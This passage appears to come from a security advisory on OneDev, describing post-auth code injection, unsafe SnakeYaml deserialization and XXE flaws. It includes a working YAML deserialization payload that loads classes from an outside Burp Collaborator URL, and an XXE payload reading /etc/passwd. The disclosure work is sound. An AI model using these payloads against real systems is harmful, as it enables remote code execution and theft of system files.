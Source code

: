 <p>Resulting in the injection of a static constructor that will run our arbitrary code. Injection is not only possible in text patterns, but in many other parameters.</p>

<h4 id="impact-6">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">post-auth RCE</code></p>

<h3 id="issue-8-post-auth-unsafe-yaml-deserialization">Issue 8: Post-Auth Unsafe Yaml deserialization</h3>
<p>In order to parse and process YAML files, OneDev uses SnakeYaml which by default (when not using <code class="language-plaintext highlighter-rouge">SafeConstructor</code>) allows the instantiation of arbitrary classes. We can leverage that to run arbitrary code by instantiating classes such as <code class="language-plaintext highlighter-rouge">javax.script.ScriptEngineManager</code> and using <code class="language-plaintext highlighter-rouge">URLClassLoader</code> to load the script engine provider, resulting in the instantiation of a user controlled class. We can observe that by providing the following BuildSpec:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>version: 1
jobs:
- name: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://qgayzevwou8by0k3ochje4ebx23srh.burpcollaborator.net"]]]]
  image: asdasd
  commands:
  - asd
  retrieveSource: true
  cloneCredential: !DefaultCredential {}
  cpuRequirement: 250m
  memoryRequirement: 128m
  retryCondition: never
  maxRetries: 3
  retryDelay: 30
  timeout: 3600
</code></pre></div></div>

<p>By intercepting the resolution of the provided URL, we can prove that the payload succeeded.</p>

<h4 id="impact-7">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">post-auth RCE</code></p>

<h3 id="issue-9-post-auth-external-entity-expansion-xxe">Issue 9: Post-Auth External Entity Expansion (XXE)</h3>
<p>When BuildSpec is provided in XML format, the spec is processed by <a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/migration/XmlBuildSpecMigrator.java"><code class="language-plaintext highlighter-rouge">XmlBuildSpecMigrator.migrate(buildSpecString);</code></a> which processes the XML document without preventing
the expansion of external entities. These entities can be configured to read arbitrary files from the file system and dump their contents in the final XML document to be migrated. If the files are dumped in properties included in the YAML file, it will be possible for an attacker to read them. Eg:</p>

<div class="language-xml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="cp">&lt;?xml version="1.0"?&gt;</span>
<span class="cp">&lt;!DOCTYPE data [
&lt;!ENTITY file SYSTEM "file:///etc/passwd"&gt;</span>
]&gt;
<span class="nt">&lt;data&gt;</span><span class="ni">&amp;file;</span><span class="nt">&lt;/data&gt;</span>
</code></pre></div></div>
